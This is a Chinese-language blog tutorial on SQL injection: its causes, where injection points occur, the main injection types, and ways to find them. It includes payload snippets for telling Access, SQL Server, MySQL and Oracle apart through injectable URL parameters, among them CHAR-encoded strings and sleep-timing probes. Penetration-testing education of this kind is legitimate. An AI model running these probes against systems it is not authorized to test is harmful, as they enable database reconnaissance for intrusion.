 +++
date = "2016-06-19T20:18:48+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入"
topics = ["Pentest"]

+++

### 0x00 含义
sql注入是将代码插入(拼接)到应用(用户)的输入参数中，之后再将这些参数传递给后台的SQL服务器加以解析并执行的攻击，

总结起来就是攻击者将恶意代码拼接到sql语句并加以执行从而得到数据的过程。

### 0x01 成因
SQl语句未对用户参数进行严格过滤

### 0x02 可引发注入的地方
其实只要是客户端可控、参数值代入数据库查询的地方都可能存在注入，常见的如下，按出现频率排序：

* GET
* POST
* X-Forwarded-For
* Cookie
* User-Agent

### 0x03 注入分类
* 根据语法(较权威)
    * UNION query SQL injection(可联合查询注入)  
        只要页面有显示位即可使用，且注入速度很快
    * Error-based SQL injection(报错型注入)  
        没有显示位但用echo "mysql_error()"输出了错误信息，速度很快，但是语句较复杂
    * Boolean-based blind SQL injection(布尔型注入)  
        一次一个字节，速度慢，但只要有注入就能用
    * Time-based blind SQL injection(基于时间延迟注入)  
        超级慢，比布尔型注入慢几倍，但是通用性较强
    * Stacked queries SQL injection(堆叠注入/可多语句查询注入)  
        只有SQL Server可以使用

* 根据类型
    * 整形  
        形如```"a.asp?ID=55"```，这类注入的参数是"数字"，因此称为"数字型注入点"。
    * 字符串型  
        形如```"b.asp?name=xiaoming"```这类注入的参数是"字符"，称为"字符型"注入点。  
    * 搜索型  
        指在进行数据搜索时没过滤搜索参数，直接通过搜索框表单提交。  

### 0x04 查找注入点
* 在URL中
    * and 1=1/and 1=2(整型)
    * 随即输入(整型)
    * -1/+1 回显上下页面(整型)
    * 单引号(字符型/整型)
    * and sleep(5) (判断页面返回时间)

* 在http头
    * X-Forwarded-For
    * Cookie
    * User-Agent

### 0x05 SQL注入之判断数据库类型
* 常见手段
    * 扫描端口、指纹、抓包查看http头信息、在网址后面直接判断

* 根据各数据库特有函数判断
    * Access:
    ```
    and (select count(*) from MSysAccessObjects)>0   返回正常说明是access
    and exists(select count(*) from表)
    ID=1 and (select count (*) from sysobjects)>0 返回异常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ```

    * SQLServer:
    ```
    and (select count(*) from sysobjects) >0   返回正常说明是mssql
    ID=1 and (select count (*) from sysobjects)>0 返回正常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ID=1 and left(version(),1)=5%23  //红色字体也可能是4
    ID=1 and exists(select id from sysobjects)
    ID=1 and len(user)>0 
    ID=1 CHAR(97)+CHAR(110)+CHAR(100)+CHAR(32)+CHAR(49)+CHAR(61)+CHAR(49)
    ```

    * MySQL:
    ```
    and length(user())>0   返回正常说明是MySQL
    id=2 and version()>0 返回正常
    id=2 and length(user())>0
    id=2 CHAR(97, 110, 100, 32, 49, 61, 49)
    ```

    * ORACLE:
    ```
    ID=1  and '1'||'1’='11'
    ID=1  and 0<>(select count(*) from dual) 
    ID=1 CHR(97) || CHR(110) || CHR(100) || CHR(32) || CHR(49) || CHR(61) || CHR(49)
    ```

* 其他方法
    ```
    "/*"是MySQL中的注释符，返回错误说明该注入点不是MySQL，继续提交如下查询字符：
    "--"是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：
    ";"是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。
    ```
